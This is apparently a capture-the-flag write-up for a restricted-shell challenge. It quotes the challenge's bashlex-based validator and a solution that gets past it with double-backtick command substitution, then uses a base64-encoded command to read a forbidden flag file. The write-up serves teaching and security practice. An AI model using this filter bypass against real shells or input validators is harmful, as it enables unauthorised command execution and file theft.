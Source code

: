 # bashlex

**Category**: Misc \
**Tags**: `restricted shell`, `easy` \
**Points**: 100 (47 solves) \
**Author**: mrtumble

## Challenge

We made a new restricted shell with fancy AST validation, and we don't allow cat!
The flag is in `/home/bashlex/flag.txt`.

`nc 34.90.44.21 1337`

## Solution

```python
ALLOWED_COMMANDS = ['ls', 'pwd', 'id', 'exit']

def validate(ast):
    queue = [ast]
    while queue:
        node = queue.pop(0)
                ...
                elif first_child.word.startswith(('.', '/')):
                    print('Path components are forbidden')
                    return False
                elif first_child.word.isalpha() and \
                        first_child.word not in ALLOWED_COMMANDS:
                    print('Forbidden command')
                    return False
        elif node.kind == 'commandsubstitution':
            print('Command substitution is forbidden')
            return False
        elif node.kind == 'word':
            if [c for c in ['*', '?', '['] if c in node.word]:
                print('Wildcards are forbidden')
                return False
            elif 'flag' in node.word:
                print('flag is forbidden')
                return False
        ...
    return True

while True:
    inp = input('> ')

    try:
        parts = bashlex.parse(inp)
        pprint(parts)
        valid = True
        for p in parts:
            pprint(p)
            if not validate(p):
                valid = False
    except:
        print('ERROR')
        continue

    if not valid:
        print('INVALID')
        continue

    subprocess.call(['bash', '-c', inp])
```

Basically it needs to pass `bashlex` validation but still cat the flag.
After some guessing I found this:
```
$ nc 34.90.44.21 1337
> ``echo hi``
hi
>
```

Now that we have nearly complete access to the shell, we can just do:
```
> ``echo Y2F0IC9ob21lL2Jhc2hsZXgvZmxhZy50eHQK | base64 -d > /tmp/shit.sh``
> ``cat /tmp/shit.sh``
cat /home/bashlex/flag.txt
> ``sh /tmp/shit.sh``
union{chomsky_go_lllllllll1}
>
```
